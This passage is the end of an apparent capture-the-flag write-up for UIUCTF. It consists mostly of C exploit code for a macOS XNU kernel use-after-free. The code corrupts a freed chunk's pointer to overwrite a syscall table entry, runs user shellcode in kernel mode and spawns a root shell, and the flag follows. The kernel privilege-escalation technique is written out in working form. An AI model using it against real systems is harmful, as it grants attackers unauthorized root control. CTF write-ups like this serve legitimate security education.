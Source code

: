 ```c
    int sock = socket(AF_UNIX, SOCK_STREAM, 0);
    alloc_sotag(sock);
    free_sotag(sock);
    /* Overwrite forward pointer of a freed chunk */
    *(uint64_t *)buf = 0xffffff8000656d10ULL; // &sysent[114]
    write_sotag(sock, buf);
    /* First allocation reallocates the freed chunk; second allocation
       goes wherever we want. */
    alloc_sotag(sock);
    alloc_sotag(sock);

    /* Overwrite sy_call of an unused syscall to call shellcode.
       No SMEP, so we can just call user code directly. */
    bzero(buf, sizeof(buf));
    *(void **)&buf[8] = &shellcode;
    write_sotag(sock, buf);

    /* Trigger custom syscall to run shellcode in kernel mode */
    long ret;
    asm volatile
    (
        "syscall"
        : "=a" (ret)
        : "0"(0x2000072)
        : "rcx", "r11", "memory"
    );

    /* If all went well, we're root now */
    setuid(0);

    printf("fake syscall returned %lx\n", ret);
    printf("done!\n");
    fflush(stdout);
    system("/bin/sh -pi");
}
```

When run, we get our desired root shell, from which we can `cat /flag`:

`uiuctf{sn0w_le0p4rd_1s_th3_b3st_XNU_ever_m4de}`
